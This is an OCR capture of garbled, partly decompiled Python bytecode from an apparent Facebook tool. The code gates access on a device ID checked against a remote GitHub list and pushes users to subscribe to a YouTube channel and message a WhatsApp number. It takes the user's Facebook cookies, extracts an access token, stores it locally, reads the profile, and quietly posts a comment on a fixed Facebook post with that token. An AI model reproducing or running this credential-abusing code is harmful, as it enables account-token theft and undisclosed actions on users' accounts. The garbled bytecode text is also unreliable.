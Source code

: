    r   r   r   r   &   s!   А ▌
М	Р'╤╘╨▌
НdЙМИИИr   c                  єф  Ч t          j        dж  л         t          t          ж  л         t	          t          j        ж   л         ж  л        t	          t          j        ж   л         ж  л        z   } dа                    | ж  л        }	 t          j	        dж  л        j
        }||v rSt          dж  л         t	          t          j        ж   л         ж  л        }t          j        dж  л         t          ж   л          d S t          d|z   ж  л         t          dж  л         t          dж  л         t          dж  л         t          d	ж  л         t          d
ж  л         t          dж  л         t          dж  л         t          dж  л         t          d
ж  л         d|z   }t          j        d|z   ж  л        t          ж   л         f t          j        dж  л         t!          ж   л          d S #  t#          j        ж   л          Y d S xY w)Nr   ·-zEhttps://raw.githubusercontent.com/Hackerrv33/REHANrbc/main/server.txtz*[1;32mYour Token is Successfully Approvedg      р?z
Your Token : r   z#[1;32mImportant Note-Tool is Free z6[1;37mFor One Condition to get Free Register Everyonez7First Subscribe My Youtube Channel And Send Screen Shotz3Send Your Screen Shot and Get Approval Within 5 minz6Register Auto Delete If You Are Unsubscribe My Channelz$IF U WANT Free Approval PRESS ENTER zIHello%20Sir%20!%20Please%20Approve%20My%20Token%20The%20Token%20Is%20:%20z*am start https://wa.me/+923182155629?text=щ   )r   r   r	   r   ┌str┌geteuid┌getlogin┌join┌requests┌get┌text┌time┌sleepr   ┌input┌approval┌menu┌sys┌exit)┌uuid┌id┌httpCaht┌msg┌tkss        r   r    r    )   s╒  А ▌Д)ИG╤╘╨▌НБ+Д+А+▌	НRМZЙ\М\╤	╘	ЭSедбд╤/╘/╤	/А$╪
ЗxВxРБ~Д~А"Ё▌М|╨c╤d╘d╘iАH╪	ИXА~А~▌╨:╤;╘;╨;▌ХФ
СФ╤╘Аc▌
ДjРБoДoАo▌БgДgАg╪
АdхИOШB╤╤╘╨▌╨E╤F╘F╨F▌╨3╤4╘4╨4▌╨E╤F╘F╨F▌╨F╤G╘G╨G▌╨E╤F╘F╨F▌╨A╤B╘B╨B▌╨E╤F╘F╨F▌╨
E╤F╘F╨F▌╨2╤3╘3╨3╪
X╨Y[╤
[Аc╒]_╘]fЁ  hTЁ  UXё  hXё  ^YЇ  ^Yї  Zbё  ZdЇ  ZdЁ  ^dЁ  ^d▌
ДjРБmДmАm▌
БfДfАfАfАf°Ё▌ДHБJДJАJАJАJАJ°°°s   ┬ A.G ├0C%G ╟G/c            
      є8  Ч t          ж   л          t          dж  л        } 	 t          j        dddddddd	d
ddЬ	d
| iмж  л        }t	          j        d|j        ж  л        }t          ddж  л        а                    |а	                    dж  л        ж  л         t          ddж  л        а                    | ж  л         t          ddж  л        а
                    ж   л         }t          j        d|z   d
| iмж  л        а                    ж   л         }|d         }|d         }|d         }t          ж   л          t          d|z   ж  л         t          d|z   ж  л         t          d|z   ж  л         t          j        d| z   dz   |z   d
| iмж  л         t          ж   л          t          dж  л         t          j        dж  л         t#          ж   л          d S # t$          $ rI t          d ж  л         t'          j        d!ж  л         t          j        dж  л         t+          ж   л          Y d S t          j        j        $ r t1          d"ж  л         Y d S t2          $ rW t          d ж  л         t'          j        d!ж  л         t          j        dж  л         t+          ж   л          t+          ж   л          Y d S w xY w)#Nz Put cookies: z0https://business.facebook.com/business_locationszЙMozilla/5.0 (Linux; Android 6.0.1; Redmi 4A Build/MMB29M) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.92 Mobile Safari/537.36zhttps://m.facebook.com/zbusiness.facebook.comzhttps://business.facebook.com┌1z#id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7z	max-age=0zмtext/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8ztext/html; charset=utf-8)	·
user-agent┌referer┌host┌origin·upgrade-insecure-requests·accept-languagez
cache-control┌accept·content-type┌cookie)┌headers┌cookiesz	(EAAG\w+)·.tok.txt┌wr   ·	.coki.txt┌r·,https://graph.facebook.com/me/?access_token=йr5   ┌namer%   ┌birthdayz Welcome[1;32m : z [1;37mYour UID : z Barth Day: zvhttps://graph.facebook.com/pfbid02Sj97PfY1mY3cvbLjGaJRz22FR7yc75JFKLoBFiHoNLSq9aGxmGKotAtcYLkMDDpbl/comments/?message=z&access_token=z& Cookies login has been successfull...z#[1;31m Cookies has been expired...zrm -rf .tok.txtz internet connection error...)r   r   r   r   ┌re┌searchr   ┌open┌write┌group┌read┌jsonr
   r	   ┌postr   r   r!   ┌KeyErrorr   r   ┌login┌
exceptions┌ConnectionErrorr#   ┌AttributeError)r5   ┌data┌
find_token┌tok┌infor<   ┌idd┌barths           r   rG   rG   L   s  А ▌
ЙМИ▌╨(╤)╘)ИЁ	▌Ф|╨$VЁ  r}Ё  IbЁ  kBЁ  MlЁ  KNЁ  bGЁ  YdЁ  n\
Ё  l
FЁ  cGЁ  cGЁ  T\Ё  ]dЁ  SeЁ  fё  fЇ  fР▌ЬYа{░D┤I╤>╘>Р
▌РZа╤%╘%╫+╥+иJ╫,<╥,<╕Q╤,?╘,?╤@╘@╨@▌Р[а╤%╘%╫+╥+иG╤4╘4╨4▌ШаC╤(╘(╫-╥-╤/╘/Р▌Ф|╨$R╨SV╤$V╨bj╨kr╨as╨t╤t╘t╫y╥y╤{╘{Р╪Ш6ФlР╪Ш$ФZР╪ШJ╘'Р▌СФР▌╨-иd╤2╤3╘3╨3▌╨.иs╤2╤3╘3╨3▌РnаU╤*╤+╘+╨+▌Ф
Ё  WЁ  X_ё  _Ё  `pё  pЁ  qtё  tЁ  GЁ  HOЁ  ~PЁ  Qё  QЇ  QЁ  Q▌СФР▌╨>╤?╘?╨?▌Ф
Ш1С
Ф
Р
